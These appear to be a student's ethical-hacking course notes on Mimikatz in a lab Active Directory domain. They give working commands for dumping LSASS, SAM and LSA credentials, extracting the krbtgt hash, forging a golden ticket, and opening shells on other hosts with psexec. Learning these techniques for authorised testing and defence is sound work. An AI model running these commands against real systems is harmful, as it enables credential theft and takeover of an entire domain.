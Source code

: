 # Mimikatz

Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks

- dumps credentials stores in memory
- A few attacks:
	- Credential Dumping
	- Pass-the-Hash 
	- Over-Pass-the-Hash
	- Pass-the-Ticket
	- Golden Ticket
	- Silver Ticket


Very likely to be picked up / caught

mimikatz changes all the time, might not work the same by the time we use it

We will learn how to keep persistance and have a 'Golden Ticket'

## Credential Dumping with Mimikatz
Go on github page and download mimikatz_trunk.zip straight to our DC
We will assume we have compromised the DC.

Mimikatz wiki very helpful (learn about different modules)

```
C:\Users\Administrator\Downloads>mimikatz.exe
```
Syntax something like `module::option`

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/0571463bb9a647f4bfb92d63d236332b.png?raw=true)

debug means it is allowing us to debug a process that we would otherwise not have access to.
`Privilege '20' OK`

We are going to attempt to dump some info out of memory. We need to be able to bypass the memory protections in place
Especially for the lsass.exe for example

We will run a few attacks

First: 
```
securlsa::logonpasswords
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/df753998b2804d92a3d82e199649478b.png?raw=true)

We get NTLM hashes, accounts that are logged in, etc. 
wdigest is a feature that in Windows 7 and below stored passwords in cleartext. The feature still exists even if it was patched in Windows 8 and above. If we turn it on, it will store passwords in cleartext and if we wait and someone logs out and in we will get the pass in cleartext

Can try and get the sam
```
lsadump::sam
lsadump::sam /patch
```
even if these don't work, there are other ways we have learned

```
lsadump::lsa /patch
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/bdd064b1e4bf4bba8d26a00a75aeb1d6.png?raw=true)

LSA == Local Security Authority
- A protected subsystem in Windows Authentication
- It authenticates and creates logon sessions to the local computer 
We are on a DC and we are dumping the LSA here, this is one option

We are looking at usernames and NTLM hashes. So can just try to crack them offline... (hashcat etc.). It does matter to see what percentage of passwords we crack to comment on how strong the client's password policy is. It gives them a number to put on their policy. 

Other option, we can download the NTDS.dit file which will contain all the credentials as well

## Golden Ticket

krbtgt account > we can generate tickets from there
Previously, we got the hash for it
PIC

Like that, we get to generate Kerberos TGT's 
With a Kerberos TGT we can request access to any system or resource on the domain using the Ticket granting service
- When we have a **golden ticket** it means we have full access to the entire domain, all the machines we can get shell's on, can get all files, all folders etc.

```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/7dfc2cb0653d41ff9b4af4df10fb9e94.png?raw=true)

like that, we only pull the krbtgt user


Need to copy domain SID and Primary NTLM 

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/c04ee789c7f04a9ca6777bd55526c7f2.png?raw=true)

Syntax:
```
kerberos::golden /User:FakeAdmin /domain:marvel.local /sid:<domain_SID> /krbtgt:<krbNTLMprimary> /id:500 /ptt
```
The admin account 'rid' is 500
ptt for pass the ticket, i.e. pass the ticket along to the next (current or next) session. We will use this ticket to open up a CMD prompt, and that will be able to access any computer we want 

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/a20e5784e0064b628fa754dd6226683e.png?raw=true)

Then do
```
mimikatz # misc::cmd
```

That will open a new cmd prompt window

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/96dc872d87c548689e2dc675c71df6c9.png?raw=true)

can access any computer (e.g. DARTHVADER or SPOCK)

Can even download psexec.exe (it is a Windows tool) and run it on the machine and get shells. And run it against the computers and we can get a shell like that:
```
psexec.exe \\DARTHVADER cmd.exe
```

